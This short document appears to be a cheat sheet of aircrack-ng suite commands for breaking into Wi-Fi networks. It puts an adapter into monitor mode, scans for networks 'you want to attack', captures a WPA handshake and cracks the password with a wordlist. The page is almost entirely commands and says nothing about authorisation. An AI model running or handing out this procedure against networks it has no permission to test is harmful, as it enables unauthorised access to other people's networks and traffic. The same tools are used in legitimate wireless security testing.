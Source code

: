 # lists the network adaptors available and their properties. Note the name of your network adaptor that support monitoring, e.g., wlan1:
 iwconfig
# Change adaptor into monitor mode:
 airmon-ng start wlan1
# See the new adaptor:
 iwconfig
# Search for all wifi available for you to attack and mark the channel and mac address of the wifi you want to attack:
 airodump-ng wlan1mon 
# Capture wpa handshake: (EAPOL)
 airodump-ng -c <channel-no> -w <name-of-output-file> -d <mac-address> wlan1mon : 
# Crack the password:
 aircrack-ng output-above.cap -w wordlist.txt
